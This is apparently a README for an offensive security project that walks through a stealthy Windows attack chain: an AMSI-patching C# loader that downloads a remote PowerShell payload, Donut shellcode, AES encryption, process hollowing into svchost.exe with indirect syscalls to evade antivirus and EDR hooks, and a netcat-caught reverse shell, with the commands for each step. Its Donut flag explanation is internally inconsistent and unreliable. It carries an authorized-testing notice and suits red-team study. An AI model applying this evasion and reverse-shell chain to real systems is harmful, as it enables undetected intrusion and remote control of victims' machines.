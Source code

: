 # 🧬 Stealth Shellcode Runner – AES + Donut + PowerShell Loader

This project demonstrates a stealthy end-to-end technique to execute an AES-encrypted PowerShell reverse shell using:

- **Process Hollowing**
- **AES-256-CBC Encryption**
- **Donut Shellcode Generator**
- **.NET AMSI Bypass**
- **Indirect Syscalls**
- **PPID Spoofing (optional)**

Tested in OSEP-like environments with **Windows Defender enabled**.

---

## 🧩 Step 1: Build the PowerShell Loader

- The C# loader (Loader.cs) patches AMSI via `.NET Reflection`, downloads a remote PowerShell payload, and executes it in memory using `Runspace`.
- Uses base64 string obfuscation for script names like `shell.ps1`.

📌 **Note:** You may need to reference:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

---

## 🧪 Step 2: Generate Shellcode with Donut

Convert the compiled `Loader.exe` into raw shellcode with `donut`:

```bash
donut.exe -i Loader.exe -a 2 -f 1 -b 1 -o shellcode.bin
```

**Explanation of Donut flags:**
- `-a 2`: Target architecture (x64)
- `-f 1`: Output format: raw shellcode
- `-b 1`: Enable AMSI/WLDP/ETW bypass with fallback  
  - `1`: **No bypass**  
  - `2`: Abort on failure  
  - `3`: Continue on failure 

* I use donut in my Windows host an then transfer to kali linux to encrypt the shellcode.bin file.
---

## 🔐 Step 3: Encrypt the Shellcode with AES

Use the provided Python script to encrypt the shellcode using AES-256-CBC:

```bash
python3 Aes_encryption.py
```

- The script generates `encryptedShellcode`, `aesKey`, and `aesIV` as C#-formatted byte arrays.
- Paste these into the `Advanced_Process_Hollowing.cs` runner.

---

## 🧠 Step 4: Execute with Process Hollowing + Indirect Syscalls

The shellcode runner performs the following:

- Creates a suspended process (e.g., `svchost.exe`)
- Allocates memory using `NtAllocateVirtualMemory` (indirect syscall)
- Decrypts the AES shellcode in memory
- Writes shellcode using `NtWriteVirtualMemory` (indirect syscall)
- Sets memory protection to `RX` using `NtProtectVirtualMemory`
- Launches a thread using `NtCreateThreadEx` (indirect syscall)

✅ All syscalls are performed using dynamically allocated stubs copied directly from `ntdll.dll`, bypassing userland hooks from AV/EDR.

✅ PPID spoofing support can be added for stealthier process lineage.

---

## 🌐 Step 5: Host the PowerShell Reverse Shell

Create a `shell.ps1` PowerShell script containing your reverse shell logic.

Then host it using a simple HTTP server:

```bash
python3 -m http.server 80
```

---

## 📡 Step 6: Start Listener with Netcat

Use `netcat` (and optionally `rlwrap`) to catch the reverse shell:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## 🚀 Step 7: Run the Shellcode Runner

Once everything is set:

```bash
.\Advanced_Process_Hollowing.exe
```

If successful, your listener will receive the reverse shell.

---

## ✅ Summary

- AMSI is bypassed silently at runtime via .NET Reflection
- Shellcode is encrypted with AES and decrypted just-in-time
- Execution flow uses indirect syscalls to evade userland hooks
- Shellcode loads a PowerShell loader that fetches and runs a remote payload
- Designed for stealth and tested in real-world offensive scenarios

---

## ⚠️ Legal Notice

This project is for **educational and authorized penetration testing** purposes only.  
Do not use this code outside of lab environments or without **explicit permission**.  
Misuse may be illegal and unethical.

---
